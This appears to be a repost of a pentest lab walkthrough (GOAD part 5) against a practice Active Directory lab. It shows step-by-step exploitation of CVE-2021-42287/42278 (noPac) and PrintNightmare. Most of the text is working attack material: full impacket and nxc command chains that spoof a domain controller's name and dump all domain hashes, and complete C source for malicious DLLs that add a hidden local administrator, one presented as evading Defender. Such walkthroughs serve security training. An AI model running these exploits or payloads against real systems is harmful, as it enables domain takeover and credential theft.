> [!NOTE]
> Original post can be found here:
> https://mayfly277.github.io/posts/GOADv2-pwning-part5/


In Part 4 we played with relay ntlm. During this article we will continue to discover what can be done using a valid domain account

Here we will only try samAccountName exploit and PrintNightmare as MS14-068 is now too old (Windows Server 2012 R2 max).

## SamAccountName (nopac)

In the end of 2021 when everyone was worried about the log4j “log4shell” vulnerability another vulnerability raise up with less noise : CVE-2021-42287.

- I will not re-explain the vulnerability, as it is wonderfully describe here by Charlie Clark : [https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
    
- The attack was automated on windows by cube0x0 : [https://github.com/cube0x0/noPac](https://github.com/cube0x0/noPac)
- And on linux by shutdown : [https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing) (still in impacket pull requests : [https://github.com/SecureAuthCorp/impacket/pull/1202](https://github.com/SecureAuthCorp/impacket/pull/1202) and [https://github.com/SecureAuthCorp/impacket/pull/1224](https://github.com/SecureAuthCorp/impacket/pull/1224))
    
- As a huge fan of linux and exegol we will try the linux way :)

### Check if we can add computer

For this attack i will use `north/jon.snow:iknownothing` account as we previously get it with kerberoasting in the part3.

Let’s find a nxc module to check the machine account quota

```
nxc ldap -L
```

```
nxc ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M maq
```



### Prepare 

- getST is now part of the normal impacket installation
- we need to install renameMachin.py

go to the pull request
```
https://github.com/fortra/impacket/pull/1224/commits/b4fbcf9196e9b6098edae0ae7794005d2e138ccd
```
can copy past the code into a file named renameMachine.py and you are good to go


### Exploit

What we will do is add a computer, clear the SPN of that computer, rename computer with the same name as the DC, obtain a TGT for that computer, reset the computer name to his original name, obtain a service ticket with the TGT we get previously and finally dcsync :)

- Add a new computer
```
impacket-addcomputer -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'
```



- Clear the SPNs of our new computer (with dirkjan [krbrelayx](https://github.com/dirkjanm/krbrelayx) tool addspn)
```
addspn.py --clear -t 'samaccountname$' -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' 'winterfell.north.sevenkingdoms.local'
```

- Rename the computer (computer -> DC)
```
python renameMachine.py -current-name 'samaccountname$' -new-name 'winterfell' -dc-ip 'winterfell.north.sevenkingdoms.local' north.sevenkingdoms.local/jon.snow:iknownothing
```


- Obtain a TGT
```
impacket-getTGT -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell':'ComputerPassword'
```


- Reset the computer name back to the original name
```
renameMachine.py -current-name 'winterfell' -new-name 'samaccount$' north.sevenkingdoms.local/jon.snow:iknownothing
```


- Obtain a service ticket with S4U2self by presenting the previous TGT
```
export KRB5CCNAME=/home/kali/Desktop/htb/GOAD/tools/winterfell.ccache
impacket-getST -self -impersonate 'administrator' -altservice 'CIFS/winterfell.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell' -debug
```



- DCSync by presenting the service ticket
```
export KRB5CCNAME=/home/kali/Desktop/htb/GOAD/tools/administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
impacket-secretsdump -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' @'winterfell.north.sevenkingdoms.local' 
```


- And voilà, we got all the north domain ntds.dit information :)
    
- Now clean up by deleting the computer we created with the administrator account hash we just get
```
addcomputer.py -computer-name 'samaccountname$' -delete -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' 'north.sevenkingdoms.local/Administrator'
```



## PrintNightmare

To exploit printnightmare we will first check if the spooler is active on targets

### Check spooler is active

- With ncx
```
nxc smb 192.168.56.10-23 -M spooler
```



- With impacket rpcdump

```
impacket-rpcdump @192.168.56.10 | egrep 'MS-RPRN|MS-PAR'
```


>[!NOTE] 
>This is not needed any longer as this is already integrated into impacket

### Prepare impacket

- To exploit with cube0x0 script you no longer need the modified impacket version as the modifications as been merged in the main project:
    - [https://github.com/SecureAuthCorp/impacket/pull/1114](https://github.com/SecureAuthCorp/impacket/pull/1114)
    - [https://github.com/SecureAuthCorp/impacket/pull/1109](https://github.com/SecureAuthCorp/impacket/pull/1109)

### Prepare the dll

- Let’s prepare the exploitation dll
- We will create a user and add it as local administrator
- Create the file nightmare.c:
```C
#include <windows.h> 
int RunCMD()
{
    system("net users pnightmare Passw0rd123. /add");
    system("net localgroup administrators pnightmare /add");
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        RunCMD();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```


- Compile it:
```
x86_64-w64-mingw32-gcc -shared -o nightmare.dll nightmare.c
```


### Exploit on old and vulnerable windows server 2016 (meereen)

- Clone the exploit
```
git clone https://github.com/cube0x0/CVE-2021-1675 printnightmare
```


- Prepare a smb share with the dll
```
impacket-smbserver.py -smb2support ATTACKERSHARE .
```


- Before the exploit no user pnightmare

- Try on Braavos
    - Braavos is an up-to-date windows server 2016, the exploit will not work (same error if you try on the north domain on castelblack server)



- Exploit on Meereen
```
python3 CVE-2021-1675.py essos.local/jorah.mormont:'H0nnor!'@meereen.essos.local '\\192.168.56.1\ATTACKERSHARE\nightmare.dll'
```

- The exploit worked

> Wait, you use domain connection instead of –local-auth with cme no ?

- Yes, this is because meereen is a domain controller:

_“Domain controllers do not have built-in or account domains. Also, instead of a SAM database, these systems use the Microsoft Active Directory directory service to store account access information.”_

- see: https://docs.microsoft.com/en-us/windows/win32/secmgmt/built-in-and-account-domains

### Exploit on vulnerable windows server 2019 (winterfell)

- Now try the same exploit on a vulnerable windows server 2019
```
python3 CVE-2021-1675.py north.sevenkingdoms.local/jon.snow:'iknownothing'@north.sevenkingdoms.local '\\192.168.56.1\ATTACKERSHARE\nightmare.dll'
```



- And it works too but the user is not in the administrators group :(
- Nothing due to the exploit, it is just our dll who add a user as administrator who get caught when user is setup as administrator

- Good (thing) to know : after some failures the spooler service will be stopped by defender and no more exploit for you until someone restart the server or the spooler service.
    
- Let’s change the payload with another code (source : https://github.com/newsoft/adduser )
    
```C++
/*
 * ADDUSER.C: creating a Windows user programmatically.
 */

#define UNICODE
#define _UNICODE
#include <windows.h>
#include <string.h>
#include <lmaccess.h>
#include <lmerr.h>
#include <tchar.h>

DWORD CreateAdminUserInternal(void)
{
    NET_API_STATUS rc;
    BOOL b;
    DWORD dw;

    USER_INFO_1 ud;
    LOCALGROUP_MEMBERS_INFO_0 gd;
    SID_NAME_USE snu;

    DWORD cbSid = 256;    // 256 bytes should be enough for everybody :)
    BYTE Sid[256];

    DWORD cbDomain = 256 / sizeof(TCHAR);
    TCHAR Domain[256];

    // Create user
    memset(&ud, 0, sizeof(ud));

    ud.usri1_name        = _T("pnightmare2");                // username
    ud.usri1_password    = _T("Test123456789!");             // password
    ud.usri1_priv        = USER_PRIV_USER;                   // cannot set USER_PRIV_ADMIN on creation
    ud.usri1_flags       = UF_SCRIPT | UF_NORMAL_ACCOUNT;    // must be set
    ud.usri1_script_path = NULL;

    rc = NetUserAdd(
        NULL,            // local server
        1,                // information level
        (LPBYTE)&ud,
        NULL            // error value
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetUserAdd FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

   _tprintf(_T("NetUserAdd OK\r\n"), rc, rc);

    // Get user SID
    b = LookupAccountName(
        NULL,            // local server
        ud.usri1_name,   // account name
        Sid,             // SID
        &cbSid,          // SID size
        Domain,          // Domain
        &cbDomain,       // Domain size
        &snu             // SID_NAME_USE (enum)
    );

    if (!b) {
        dw = GetLastError();
        _tprintf(_T("LookupAccountName FAIL %d 0x%08x\r\n"), dw, dw);
        return dw;
    }

    // Add user to "Administrators" local group
    memset(&gd, 0, sizeof(gd));

    gd.lgrmi0_sid = (PSID)Sid;

    rc = NetLocalGroupAddMembers(
        NULL,                    // local server
        _T("Administrators"),
        0,                        // information level
        (LPBYTE)&gd,
        1                        // only one entry
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetLocalGroupAddMembers FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

    return 0;
}

//
// DLL entry point.
//

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateAdminUserInternal();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

// RUNDLL32 entry point
#ifdef __cplusplus
extern "C" {
#endif
__declspec(dllexport) void __stdcall CreateAdminUser(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow)
{
    CreateAdminUserInternal();
}

#ifdef __cplusplus
}
#endif
// Command-line entry point.
int main()
{
    return CreateAdminUserInternal();
}
```

- With this payload we can bypass defender and add our user as administrator
- compile
```
x86_64-w64-mingw32-gcc -shared -opnightmare2.dll adduser.c -lnetapi32
```


- prepare the share
```
impacket-smbserver.py -smb2support ATTACKERSHARE .
```

- relaunch the exploit
```
python3 CVE-2021-1675.py north.sevenkingdoms.local/jon.snow:'iknownothing'@winterfell.north.sevenkingdoms.local '\\192.168.56.118\ATTACKERSHARE\pnightmare2.dll'
```


- And enjoy your new admin account by dumping the ntds :)

```
nxc smb winterfell.north.sevenkingdoms.local -u pnightmare2 -p 'Test123456789!' -M ntdsutil
```


### cleanup

```
xfreerdp3 /u:jon.snow /p:iknownothing /d:north /v:192.168.56.11 /cert:ignore
```

- After the exploitation you will find your dlls inside : `C:\Windows\System32\spool\drivers\x64\3`


If you need to stop and start the print spooler
https://www.epson.eu/en_EU/faq/KA-01651/contents?loc=en-us


- Don’t forget to clean up ;)